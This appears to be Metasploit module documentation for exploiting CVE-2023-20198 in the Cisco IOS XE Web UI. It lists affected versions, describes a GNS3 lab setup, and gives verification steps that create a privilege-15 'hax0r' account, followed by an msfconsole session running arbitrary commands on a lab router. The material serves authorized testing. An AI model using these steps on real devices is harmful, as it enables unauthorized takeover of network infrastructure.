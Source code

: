 ## Vulnerable Application
This module leverages CVE-2023-20198 against vulnerable instances of Cisco IOS XE devices which have the
Web UI exposed. An attacker can execute arbitrary CLI commands with privilege level 15.

By default [CLI commands](https://www.cisco.com/E-Learning/bulk/public/tac/cim/cib/using_cisco_ios_software/02_cisco_ios_hierarchy.htm)
are run in the Global configuration mode. To drop down to Privileged EXEC mode, you can preface your command
with the `exit` keyword followed by an (escaped) newline, e.g. To run the command `show version` in Privileged
EXEC mode, the CMD must be `exit\\nshow version`. To drop to User EXEC mode you can preface your command with
two `exit` keywords, e.g. `exit\\nexit\\nshow ip interface brief`. To run a command in Global configuration
mode, just set the `CMD` option to the command you want to run, e.g. `username hax0r privilege 15 password hax0r`.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
  can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows)
  to install GNS3 and the [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn
  how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000V instance as a QEMU device.
  * The CSR1000V device's first ethernet adapter `Gi1` should be connected to a Cloud device, whose adapter was bridged
  to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
  be accessible to a remote attacker.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "username hax0r privilege 15 secret hax0r"`
5. `run`
6. Visit `https://<TARGET_IP_ADDRESS>/webui/` in a browser and log in with username `hax0r` and password `hax0r`.

## Scenarios

```
msf6 > use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set CMD "exit\\nshow version"
CMD => exit\nshow version
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198):

   Name     Current Setting     Required  Description
   ----     ---------------     --------  -----------
   CMD      exit\nshow version  yes       The Global configuration CLI command to execute. To drop to Privileged EXEC mode, preface your CMD with exit\\n, e.g "exit\\nshow version"
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.57       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443                 yes       The target port (TCP)
   SSL      true                no        Negotiate SSL/TLS for outgoing connections
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run
[*] Running module against 192.168.86.57


Cisco IOS XE Software, Version 16.12.03
Cisco IOS Software [Gibraltar], Virtual XE Software (X86_64_LINUX_IOSD-UNIVERSALK9-M), Version 16.12.3, RELEASE SOFTWARE (fc5)
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 1986-2020 by Cisco Systems, Inc.
Compiled Mon 09-Mar-20 21:50 by mcpre
Cisco IOS-XE software, Copyright (c) 2005-2020 by cisco Systems, Inc.
All rights reserved.  Certain components of Cisco IOS-XE software are
licensed under the GNU General Public License ("GPL") Version 2.0.  The
software code licensed under GPL Version 2.0 is free software that comes
with ABSOLUTELY NO WARRANTY.  You can redistribute and/or modify such
GPL code under the terms of GPL Version 2.0.  For more details, see the
documentation or "License Notice" file accompanying the IOS-XE software,
or the applicable URL provided on the flyer accompanying the IOS-XE
software.
ROM: IOS-XE ROMMON
router uptime is 3 hours, 59 minutes
Uptime for this control processor is 4 hours, 2 minutes
System returned to ROM by reload
System image file is "bootflash:packages.conf"
Last reload reason: reload
This product contains cryptographic features and is subject to United
States and local country laws governing import, export, transfer and
use. Delivery of Cisco cryptographic products does not imply
third-party authority to import, export, distribute or use encryption.
Importers, exporters, distributors and users are responsible for
compliance with U.S. and local country laws. By using this product you
agree to comply with applicable laws and regulations. If you are unable
to comply with U.S. and local laws, return this product immediately.
A summary of U.S. laws governing Cisco cryptographic products may be found at:
http://www.cisco.com/wwl/export/crypto/tool/stqrg.html
If you require further assistance please contact us by sending email to
export@cisco.com.
License Level: ax
License Type: N/A(Smart License Enabled)
Next reload license Level: ax
Smart Licensing Status: UNREGISTERED/No Licenses in Use
cisco CSR1000V (VXE) processor (revision VXE) with 1113574K/3075K bytes of memory.
Processor board ID 9OVFUOGPESO
4 Gigabit Ethernet interfaces
32768K bytes of non-volatile configuration memory.
3012164K bytes of physical memory.
6188032K bytes of virtual hard disk at bootflash:.
0K bytes of WebUI ODM Files at webui:.
Configuration register is 0x2102

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run CMD="exit\\nshow clock"
[*] Running module against 192.168.86.57


*15:24:05.110 UTC Fri Nov 3 2023
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > 
```
